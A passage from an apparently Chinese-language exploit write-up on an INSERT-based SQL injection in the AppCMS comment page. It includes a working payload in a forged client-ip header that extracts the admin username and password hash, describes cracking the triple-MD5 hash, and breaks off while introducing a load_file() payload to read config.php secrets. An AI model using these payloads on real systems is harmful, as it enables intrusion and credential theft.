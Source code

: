 这样可能还不是很明显，不过大家可以下看下去，下面有说的执行payload的时候后台实际上执行的完整的sql语句是什么样子的。
- **这里先补充一个关于insert注入的知识点**
例如执行下列语句后相当于同时执行了两条插入语句。

```
insert into test1(id,name,pwd) values(5,'mmm','mmmpwd'),(6,'jjj','jjjpwd');
```

[![](https://p1.ssl.qhimg.com/t01a15018f2148e9b44.png)](https://p1.ssl.qhimg.com/t01a15018f2148e9b44.png)

正是由于mysql  中的这个特性导致了这里可以注入成功(可以允许使用逗号来分隔实现同时插入多条数据)

** **
- **下面构造payload获取管理员用户名密码**
存在sql注入漏洞的是在评论页面，例如

http://10.10.10.1/appcms/index.php?tpl=content_app&amp;id=1

[![](https://p4.ssl.qhimg.com/t01f680c4f2ed1388e9.png)](https://p4.ssl.qhimg.com/t01f680c4f2ed1388e9.png)



(因为appcms是开源的，数据库表中的一些情况我们可以通过直接下载源码自己搭建起来就能查看到,所以这里可以直接查询管理员用户名和密码)

在页面http://10.10.10.1/appcms/index.php?tpl=content_app&amp;id=1

提交评论、抓包，填写上payload

```
client-ip:2.2.2.2'),('1','0','0',(select upass from appcms_admin_list where uid='1'),(select uname from appcms_admin_list where uid='1'),'1511885595817',1)#)
```

[![](https://p4.ssl.qhimg.com/t01430cd7ce439a0005.png)](https://p4.ssl.qhimg.com/t01430cd7ce439a0005.png)

这里简单说明一下，当执行这个payload的时候，后台实际上执行的sql语句是这样的

```
insert into appcms_comment (id,type,parent_id,content,uname,date_add,ip) values ('1','0','0','testtttttt','test','1511885595817','2.2.2.2'),('1','0','0',(select upass from appcms_admin_list where uid='1'),(select uname from appcms_admin_list where uid='1'),'1511885595817',1)#)
```

[![](https://p2.ssl.qhimg.com/t01e95ce38897e039a6.png)](https://p2.ssl.qhimg.com/t01e95ce38897e039a6.png)

最后我们可以在评论页面看到注入出来的内容

[![](https://p1.ssl.qhimg.com/t015109250c6139a7cb.png)](https://p1.ssl.qhimg.com/t015109250c6139a7cb.png)

这里通过阅读appcms 的底层代码我们可以知道，这里这个密码是经过3次md5加密的，所以我们的解密过程就是经过3次md5解密(在一些md5网站上可以很容易解出来)
- **构造payload获取安全码**
要登进后台除了用户名、密码之外，还需要安全码

这里使用mysql的load_file()来读取\core\config.php文件，安全码等敏感信息就在该文件里面。

payload：

